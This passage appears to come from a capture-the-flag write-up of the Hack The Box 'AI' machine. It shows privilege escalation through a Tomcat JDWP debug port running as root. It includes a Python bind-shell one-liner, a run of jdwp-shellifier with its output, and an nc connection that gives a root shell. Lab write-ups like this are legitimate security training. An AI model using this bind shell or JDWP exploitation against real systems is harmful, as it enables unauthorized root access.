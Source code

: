 ```console
```

then an ssh tunnel with ```ssh -L 8080:localhost:8080 alexa@10.10.10.163``` was run to know which service it was, resulting in tomcat:

{% include figure image_path="/assets/images/htb/ai/tomcat-tunnel.png" %}

Checked the process runing, is possible to see that tomcat is being executed with root user and [JDWP](https://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp-spec.html) enabled:

```console
root       3875  5.5  5.8 3141684 118248 ?      Sl   21:02   0:05 /usr/bin/java -Djava.util.logging.config.file=/opt/apache-tomcat-9.0.27/conf/logging.properties -Djava.util.logging.manager=org.apache.juli.ClassLoaderLogManager -Djdk.tls.ephemeralDHKeySize=2048 -Djava.protocol.handler.pkgs=org.apache.catalina.webresources -Dorg.apache.catalina.security.SecurityListener.UMASK=0027 -agentlib:jdwp=transport=dt_socket,address=localhost:8000,server=y,suspend=n -Dignore.endorsed.dirs= -classpath /opt/apache-tomcat-9.0.27/bin/bootstrap.jar:/opt/apache-tomcat-9.0.27/bin/tomcat-juli.jar -Dcatalina.base=/opt/apache-tomcat-9.0.27 -Dcatalina.home=/opt/apache-tomcat-9.0.27 -Djava.io.tmpdir=/opt/apache-tomcat-9.0.27/temp org.apache.catalina.startup.Bootstrap start
```

A quick search google gives a result the next [exploit](https://www.exploit-db.com/exploits/46501)

Then to use that exploit a ```bind.sh``` is created under ```/tmp``` with the next code:

```python
python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(('',2222));s.listen(1);conn,addr=s.accept();os.dup2(conn.fileno(),0);os.dup2(conn.fileno(),1);os.dup2(conn.fileno(),2);p=subprocess.call(['/bin/bash','-i'])"
```

So, it will bind a shell in the port 2222, after it the exploit is run using that script:

```console
alexa@AI:~$ ./jdwp-shellifier.py -t 127.0.0.1 -p 8000 --break-on 'java.lang.String.indexOf' --cmd /tmp/bind.sh 
[+] Targeting '127.0.0.1:8000'
[+] Reading settings for 'OpenJDK 64-Bit Server VM - 11.0.4'
[+] Found Runtime class: id=650
[+] Found Runtime.getRuntime(): id=7f9080006b60
[+] Created break event id=2
[+] Waiting for an event on 'java.lang.String.indexOf'
[+] Received matching event from thread 0x6ed
[+] Selected payload '/tmp/bind.sh'
[+] Command string object created id:6ee
[+] Runtime.getRuntime() returned context id:0x6ef
[+] found Runtime.exec(): id=7f9080006b98
[+] Runtime.exec() successful, retId=6f0
[!] Command successfully executed
```

Done that, is tried to get a connection to the server with nc to the server in port specified in ```bind.sh``` getting root access with it:

```console
root@kali:~/Documents/HTB/boxes/medium/linux/ai# nc -v 10.10.10.163 2222
ai.lnx.htb [10.10.10.163] 2222 (?) open
bash: cannot set terminal process group (6086): Inappropriate ioctl for device
bash: no job control in this shell
root@AI:~# wc -c /root/root.txt
wc -c /root/root.txt
33 /root/root.txt
```
